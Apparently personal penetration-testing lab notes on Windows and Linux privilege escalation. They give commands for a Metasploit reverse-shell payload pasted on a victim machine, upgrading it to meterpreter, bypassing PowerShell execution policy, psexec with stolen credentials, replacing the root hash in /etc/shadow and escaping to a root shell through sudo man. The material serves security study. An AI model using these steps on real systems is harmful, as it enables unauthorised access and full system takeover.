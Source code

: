
## Windows Privilege Escalation 


- PrivscCheck is a script that enumerate common Windows configuration issues that can be leveraged for local privilige escalation. It also gathers info that is usefull for exploitation or post exploitation: 
	- https://github.com/itm4n/PrivescCheck 

----
(can also be used to deliver winpeas)

web_delivery module (`show info`)
- set target to powershell:` set target PSH\ (Binary`) 
- `set payload windows/shell/reverse_tcp `
- `set PSH-EncodedCommand false ` (we do not want it to encrypt with base 64)
- copy the powershell code provided 
  
- paste the code in the CMD session on victim system 
this will give you access to target system through command shell session. 
  
- migrate this session to meterpreter session: 
	- `search shell_to_meterpreter` module 
	- set lhost kali 
	- set lport (make sure its not the same as the existing shell session)
	- set session to shell session 
	- show advanced: 
		pwd

**powershell -ep bypass .\script.ps1** 
Hiermee wordt het uitvoeringsbeleid tijdelijk omzeild voor de huidige sessie, zodat het script kan worden uitgevoerd zonder problemen met de uitvoeringsbeleidsinstellingen.**


**Privilege escalation:** 
after migrating to a more stable process such as explorer you run getprivs to find out what the priviliges are (getprivs)

In meterpreter: 
- `cd C:\\ `
- go to the directory where the Privescheck powershell is stored and open a command shell: `shell` 
	- check github page on how to use the script 
- paste the command in the shell prompt 
- check summary results 


##### How to use the credentials found in Privescheck results?  

![[Pasted image 20230924152458.png]]
psexec authenticates on target system via SMB, we are not exploiting the system but only authenticating with legit credentials 

login on target system with psexec.py:
- `psexec.py Administrator@target_ip (`
- command shell session
	- `whoami` 
	- `net user `
	- `whoami /priv `

search in cmd: `dir /s *flag*` searches in current folder and sub folders.
cat in CMD is type 

Method 2 is with meterpreter session 
- search psexec 
- use`` exploit/windows/smb/psexec ``
- set lport that does not conflict with current sessions 
- set smb-password and smb-username with found credentials 

















## Linux Privilege escalation 

Linux priviliges: LinEnum 
Simple bash script that automates common Linux local enumeration check in addition identifying privilege escalation vulnerabilities. 
-> https://github.com/rebootuser/LinEnum 

---

##### Weak permissions 
CMD: 
	``whoami` 
	`cat /etc/passwd`
	`cat /etc/group `
	`groups student

find file that can be usefull in elevating privileges 
 
**`find / -not -type l -perm -o+w`**  

- . `find`: This is the command itself, used to search for files and directories.
- . `/`: This is the starting directory for the search. In this case, it's the root directory, so the command will search the entire file system.
- . `-not`: It means "not."
- . `-type l`: This part of the command specifies the type of file to search for. `-type l` looks for symbolic links (symlinks). Symlinks are files that point to another file or directory.
- . `-perm -o+w`: This part of the command specifies the permissions criteria. `-perm` is used to search for files based on their permissions, and `-o+w` looks for files that are writable by someone other than the owner.


/etc/shadow stores passwords and should only be viewed by the root user. 
cat out the content of the file 
we have access to the password files but we can only see the hashes. 
so this means that we have to replace the password with a hashed password (this way we can have access to the root user)

1. Confirm that you have access to the shadow file: `ls -al /etc/shadow `
   `cat /etc/shadow`
2. generate password you can replace: `openssl passwd -1 -salt abc youhavebeenhacked`
3. copy hashed password and replace in shadow file: `vim` `/etc/shadow `
   remove the * and paste the new password 
4. switch to the root account: `su` 
5. enter password of root user account with the value you set 


##### Sudo Privileges 

`cat /etc/passwd `
`sudo -l `(list of commands you can run as the user)

 
 /usr/bin/man can be exploited if misconfigured with sudo priviliges: 
 unprivileged can run this binary with sudo priviliges (root priviliges) without root password/  -- bypassing permissions & privileges
 
 man utility can allow users to spawn a bash session from within the utility, how: 

  try to run with sudo privliges:
  -  `sudo man ls `  (it should not ask for password)
  - we can spawn a bash session with: 
  `  !/bin/bash `
because we are running the man binary with pseudo priviliges, we are able to execute whatever, from the man binary. 




